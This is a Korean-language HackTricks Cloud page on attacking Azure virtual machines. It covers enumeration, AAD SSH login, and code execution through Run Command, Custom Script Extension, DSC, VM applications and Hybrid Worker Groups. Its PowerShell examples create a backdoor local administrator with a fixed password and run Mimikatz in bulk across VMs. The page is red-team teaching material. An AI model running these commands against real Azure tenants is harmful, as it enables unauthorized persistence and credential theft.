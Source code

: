 # Az - 가상 머신 및 네트워크

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

## 기본 정보

[문서에서:] (https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 가상 머신은 Azure가 제공하는 여러 유형의 [온디맨드, 확장 가능한 컴퓨팅 리소스](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) 중 하나입니다. 일반적으로, 다른 선택지보다 컴퓨팅 환경에 대한 더 많은 제어가 필요할 때 가상 머신을 선택합니다. 이 문서는 가상 머신을 생성하기 전에 고려해야 할 사항, 생성 방법 및 관리 방법에 대한 정보를 제공합니다.

## Azure 네트워크 정보

Azure 네트워크는 **다양한 엔티티와 구성 방법을 포함합니다.** 다양한 Azure 네트워크 엔티티에 대한 간략한 **설명,** **예제** 및 **열거** 명령을 찾을 수 있습니다:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**은 Azure 포털을 통해 SSL을 통해 안전하고 완전 관리되는 RDP(원격 데스크톱 프로토콜) 및 SSH(보안 셸) 액세스 솔루션을 제공합니다. Azure 가상 네트워크 내에 통합되어 있어 RDP 및 SSH 연결을 사용하여 VM에 개인 IP를 통해 연결할 수 있으며, 공용 IP의 필요성을 피할 수 있습니다. 이는 공용 IP 할당 및 VM 액세스를 위한 NSG 규칙 구성을 포함하는 전통적인 방법보다 더 안전하고 편리한 대안이 됩니다. 개발자와 IT 직원은 웹 브라우저를 사용하여 Azure 포털에서 VM에 안전하게 액세스할 수 있어 개발 및 테스트 환경을 위한 프로세스를 간소화합니다.

구독 내 모든 Azure Bastion 호스트를 나열하려면 다음 명령을 사용할 수 있습니다:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM 열거
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM에서 명령 실행하기**

### **VM에서 AAD 로그인**

AzureAD를 통해 인증된 사용자에게 접근을 허용하는 것이 가능합니다. 예를 들어 **linux VM**에 접근하려고 할 때: `ssh username@azure-corp.com@1.1.1.1` (로그인 시 사용한 azurecorp와 함께 **이메일을 사용하는 것이 중요**합니다) 다음과 같은 오류가 발생할 수 있습니다:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

그냥 **이 지침을 따르세요** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)로 가서 코드를 입력하고, 이메일과 비밀번호를 자격 증명으로 사용하면 SSH를 통해 연결할 수 있습니다(해당 사용자가 그렇게 할 수 있는 충분한 권한이 있는 경우: `Virtual Machine Administrator Login` 또는 `Virtual Machine User Login` 역할).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **사용자 지정 스크립트 확장 실행**

Azure 가상 머신(VM) 확장은 **Azure VM**에서 배포 후 구성 및 자동화 **작업**을 제공하는 **작은 애플리케이션**입니다. 예를 들어, 가상 머신에 소프트웨어 설치, 바이러스 백신 보호 또는 내부에서 스크립트를 실행할 수 있는 기능이 필요한 경우 VM 확장을 사용할 수 있습니다.

따라서 이를 작성할 수 있는 권한이 있다면 임의의 코드를 실행할 수 있습니다:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC)는 코드를 통해 호스트를 설정하는 데 사용되는 Ansible과 유사한 PowerShell 도구입니다. DSC는 Azure와 통합되어 특정 구성 파일을 업로드할 수 있습니다. 이러한 파일은 엄격한 구문을 준수해야 합니다. 특히, Azure의 DSC 확장은 특정 형식 기준을 충족하는 파일에서 명령을 실행할 수 있으며, DSC 표준에 맞지 않는 구문일지라도 실행할 수 있습니다.

이러한 명령의 실행은 Az PowerShell의 [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 함수에 의해 용이해집니다. 요구 사항에는 정의된 함수가 포함된 **.PS1** 파일이 필요하며, 이 파일은 **.zip** 파일로 압축되어야 합니다. 구문이 DSC에 맞지 않더라도 코드는 여전히 실행됩니다. 그러나 확장은 실행 상태를 "실패"로 표시하며, 실패 메시지로 인해 명령의 출력은 표시되지 않습니다.

### VM Application Definitions

VM Application Definitions는 버전이 지정된 애플리케이션을 Azure VM에 반복적으로 배포할 수 있게 해줍니다. 이 리소스는 VM 간의 애플리케이션 배포 및 업데이트를 지원합니다. 이를 설정하기 위해서는 Az PowerShell에서 **`New-AzGalleryApplication`** 및 **`New-AzGalleryApplicationVersion`**과 같은 명령을 포함한 여러 단계가 필요합니다.

이 방법을 통해 애플리케이션이나 명령을 실행하는 것은 VM에 애플리케이션이 적용될 때 자동으로 설치되는 **"VMAppExtension"**을 포함합니다. 이 확장은 지정된 URI에서 파일을 가져오고, 애플리케이션과 동일한 이름으로 확장자 없이 저장합니다. 파일을 올바르게 실행하려면 REST API 호출의 "ManageActions" 필드를 구성하여 파일의 이름을 적절한 확장자로 변경해야 합니다. 이 방법의 설정이 완료되면 제공된 그림에 표시된 구조와 유사하게 됩니다.

그러나 이 실행 방법은 상대적으로 느리며, 애플리케이션이나 명령을 실행하는 데 약 3-4분이 소요됩니다. 이 과정과 관련된 파일은 특정 디렉터리에 저장됩니다 (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`는 애플리케이션 복사본, `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`는 실행 상태).

두 기술 모두 Azure 환경에서 명령을 실행하고 애플리케이션을 배포하는 독특한 방법을 제공하며, 각각 고유한 요구 사항, 단계 및 고려 사항이 있습니다.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker)는 Azure의 기능으로, Automation Account에서 구성된 Runbook을 지정된 HWG의 일부인 Azure Virtual Machine (VM)에서 실행할 수 있게 해줍니다. 이 실행은 VM에 설치된 확장을 통해 용이해지며, Runbook 코드를 VM에 배포합니다. 이 과정의 중요한 점은 실제 자격 증명이 실행에 영향을 미치지 않는다는 것입니다. 코드가 **SYSTEM** 또는 root로서 권한 상승된 상태로 실행되기 때문입니다.

Windows 10 VM을 사용하는 경우 중요한 세부 사항은 Runbook에 대해 PowerShell 버전을 지정해야 한다는 것입니다. PowerShell Version 5.1로 실행되도록 설정해야 하며, 7.1로 설정하면 실패하게 됩니다. 이는 PowerShell 7.1이 이러한 VM에 기본적으로 설치되어 있지 않기 때문입니다.

Azure의 이 기능은 하이브리드 환경에서 작업을 자동화하고 관리하는 강력한 방법을 제공하며, Azure VM에서 작업을 중앙 집중식으로 관리하고 실행할 수 있게 해줍니다.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
